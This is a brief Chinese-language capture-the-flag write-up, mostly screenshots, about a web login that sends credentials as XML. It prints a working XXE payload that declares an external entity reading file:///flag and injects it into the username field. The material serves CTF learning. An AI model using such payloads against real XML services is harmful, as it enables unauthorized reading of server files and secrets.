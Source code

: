 ![[Pasted image 20221126110208.png]]

---
首页长这样

![[Pasted image 20221126110251.png]]

有几行js，大意是将用户名和密码通过`xml`传输

![[Pasted image 20221126110150.png]]

瞎输一通出发了报错，好像可以对发送的`xml`进行注入

![[Pasted image 20221126110430.png]]

这玩意没咋了解过，就当是学习`XXE`了叭QAQ

https://xz.aliyun.com/t/6887

```xml
<?xml version="1.0"?>
<!DOCTYPE xxe [
<!ENTITY flag SYSTEM "file:///flag">
]>
<user>
	<username>&flag;</username>
	<password>123</password>
</user>
```

![[Pasted image 20221126115039.png]]

#Web #XXE